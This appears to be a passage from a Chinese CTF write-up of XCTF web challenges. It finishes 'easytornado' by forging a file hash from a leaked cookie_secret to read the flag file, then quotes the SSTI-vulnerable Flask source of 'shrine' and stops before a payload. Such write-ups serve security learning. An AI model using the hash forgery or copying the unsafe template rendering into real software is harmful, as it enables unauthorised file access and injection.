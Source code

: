 ![easytornado_6](https://picture1-1252813288.cos.ap-guangzhou.myqcloud.com/markdown%E5%9B%BE%E7%89%87/easytornado_6.png)

我们继续完成剩下的MD5加密过程

```
'cookie_secret': f20e2ec2-20ed-4dae-bc28-853952448214
'filename': /fllllllllllllag

md5(cookie_secret+md5(filename))

filename_md5:3bf9f6cf685a6dd8defadabfb41a03a1
最后的MD5：2a8db140333478558b74582a61aa33ee
```

```
file?filename=/fllllllllllllag&filehash=2a8db140333478558b74582a61aa33ee
```

![攻防世界_easytornado_1](images/web/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C_easytornado_3.png)



### shrine

#### 考点：SSTI模板注入

[SSTI参考资料](https://zhuanlan.zhihu.com/p/93746437)

[SSTI/沙盒逃逸详细总结](https://www.anquanke.com/post/id/188172)

进入后发现是一个python，但是不规则，我们可以ctrl+u整理好代码

```python
import flask
import os
app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
  def safe_jinja(s):
    s = s.replace('(', '').replace(')', '')
    blacklist = ['config', 'self']
    return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
  return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
app.run(debug=True)
```
